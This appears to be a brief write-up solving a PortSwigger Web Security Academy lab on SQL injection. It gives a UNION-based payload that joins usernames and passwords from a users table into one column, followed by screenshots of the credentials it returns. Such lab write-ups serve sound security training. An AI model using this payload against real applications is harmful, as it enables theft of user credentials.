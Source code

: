 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/494b4d44-b263-463a-aef7-77574a457f0e)

### Solution

Use the following payload to retrieve the contents of the users table:

`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/e7ed3ef5-9cf6-4d96-840e-6573f501dc9a)

We got all the usernames & passwords,

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/a02eaf87-fe40-414a-8fc6-b78fd764f9ea)

We got all the usernames & passwords,

![3](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/ccad8e85-a001-4252-a45e-cec25e511507)
